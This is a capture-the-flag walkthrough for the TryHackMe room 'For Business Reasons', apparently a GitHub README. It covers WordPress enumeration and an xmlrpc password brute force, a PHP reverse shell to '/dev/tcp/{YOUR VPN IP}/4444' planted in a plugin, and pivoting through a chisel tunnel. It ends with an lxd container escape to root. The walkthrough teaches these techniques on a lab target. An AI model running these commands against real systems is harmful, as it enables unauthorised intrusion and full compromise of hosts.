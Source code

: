 # Write up for 'For buisness reason' on <a href='https://tryhackme.com/room/forbusinessreasons'>TryHackMe</a>

### FLAG0

We start with nmap scan
##### nmap -sC -sV -v {MACHINE IP}

<br></br><img src='./img/Screenshot (117).png' /><br></br>

We can see that ssh port is closed which means that it is not accessible to us.
So let's visit the webpage on port 80. We can see that it is a wordpress website. Running wpscan on the website gives something interesting
##### wpscan --utl http://{MACHINE IP} -e vp,vt,dbe,u

We get the username **sysadmin**, we can also see that xmlrpc.php is available to us. We can use that to bruteforce creds for **sysadmin** user. (Read more about xmlrpc.php [here](https://the-bilal-rizwan.medium.com/wordpress-xmlrpc-php-common-vulnerabilites-how-to-exploit-them-d8d3c8600b32))

We can bruteforce the creds with wpscan
##### wpscan --url http://{MACHINE IP} -P {path to rockyou.txt} -U 'sysadmin'

This will give you the creds for user and you can login with those creds into the wordpress website,

Now we need to get a reverse shell. Let's go to plugin editor.
Change the plugin to **Hello dolly** and press **select**
<br></br><img src='./img/Screenshot (119).png' /><br></br>

Now scroll to the bottom and place the this code at the bottom
`exec('/bin/bash -c "bash -i >& /dev/tcp/{YOUR VPN IP}/4444 0>&1"');`
and update the file.

Go back installed plugins and activate the plugin.
<br></br><img src='./img/Screenshot (120).png' /><br></br>
and we will get back a shell.

Now you can find the first flag in **/var/www/html**

### FLAG1
Bumping around the machine didn't really give anything back useful, so I got the linpeas.sh on the machine with curl since the machine did not have wget.
#### curl http://{MACHINE IP}:8000/linpeas.sh -O linpeas.sh
Download the linpeas.sh in /tmp and make it executable with `chmod +x linpeas.sh`.

In the scan we can see that there are different networks
<br></br><img src='./img/Screenshot (122).png' /><br></br>
We scan for ips that are up and running with the help of nmap, download the binary from [here](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap)
After downloading move the binary to target machine with curl and run the following command to scan for IPs
##### ./nmap -sn 172.18.0.1/24 10.0.0.5/24
This will give us a list of IPs that are up
* 172.18.0.1
* 172.18.0.2
* 172.18.0.3
* 172.18.0.4
* 10.0.0.1
* 10.0.0.2
* 10.0.0.3
* 10.0.0.4
* 10.0.0.5
* 10.0.0.6


We can scan the IPs for open port with nc, download the binary [here](https://github.com/yunchih/static-binaries/blob/master/nc).
Run this command to look for ports
##### ./nc -zv {IP} {PORTS}

Scan an ip for a common ports. We can see that only 172.18.0.1 has port 22 open. We can also see that ssh is not available for the reverse shell. So now we will use chisel, download he binary [here](https://github.com/jpillora/chisel/releases/tag/v1.7.6). Download the .gzip file and extract it to get the binary.
We will use chisel for port forwarding, read more about it [here](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)

On the attacking machine i.e your own machine, run the following command
##### ./chisel server -p 8000 --reverse -v

Move chisel binary to the target machine and run the following command
#### ./chisel client {YOUR VPN IP}:8000 R:127.0.0.1:8001:172.18.0.1:22

This will forward the ssh of the intranet IP to us on our localhost at port 8001,
Now we can use ssh with the password that we earlier bruteforced
##### ssh sysadmin@127.0.0.1 -p 8001

Enter the password and we get the shell as sysadmin

### FLAG2

Now that we have the user, we can try for root.
Running `id` command tells us that we are part of the lxd and running `lxc image list` we can list the images. We can use the `lxd privesc` to get the root.
Read about the privesc [here](https://www.hackingarticles.in/lxd-privilege-escalation/)

Run the following commands on your own machine i.e youe attacking machine
##### git clone  https://github.com/saghul/lxd-alpine-builder.git
##### cd lxd-alpine-builder
##### ./build-alpine
*NOTE: If you face any problem with build-alpine then you can look for a solution [here](https://github.com/saghul/lxd-alpine-builder/issues/1)*

Once you get the `tar.gz` file, move that file to the target machine with curl.

On the target machine run the following set of commands in the same directory as the `tar.gz` (not necessary though, you can specify the path in the commands too)

##### lxc image import ./alpine-v3.13-x86_64-20210311_0157.tar.gz --alias myimage
##### lxc image list {to check if our image is created of not}
##### lxc init myimage ignite -c security.privileged=true
##### lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
##### lxc start ignite
##### lxc exec ignite /bin/sh

We get the shell as roo and you can get the flag with `cat /mnt/root/root/root.txt`
